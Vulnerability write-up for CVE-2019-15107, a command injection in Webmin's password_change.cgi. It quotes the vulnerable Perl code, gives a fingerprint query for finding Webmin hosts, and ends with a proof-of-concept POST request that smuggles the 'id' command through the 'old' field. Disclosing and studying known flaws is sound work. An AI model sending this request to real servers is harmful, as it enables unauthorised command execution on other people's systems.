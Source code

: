 # Webmin password_change.cgi remote command execution vulnerability CVE-2019-15107

## Vulnerability Description

Webmin is a management configuration tool for managing Unix systems, with web pages. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Webmin <= 1.920</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="webmin"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563.png)

The trigger point of the vulnerability is the file password_change.cgi

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661568713515-5009d2d4-80a9-49b0-ab9b-f098bff322c4.png)

Among them, several parameters of the accepted POST parameter are `user pam expired old new1 new2`, and the most noteworthy parameter is old, and the corresponding code snippet has vulnerabilities.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661568802728-3a2a2afb-8b16-47f9-9fb1-e83c6854ee94.png)

```php
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

In perl, `qx/id/` corresponds to the execution of the system command id, and the old parameter in the controllable parameters is controllable, causing the command to be executed and echoed to the page through pass_error to verify the POC

```php
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661480163002-a6dc7596-7d8a-4f8f-9b76-da1caa8b1b75.png)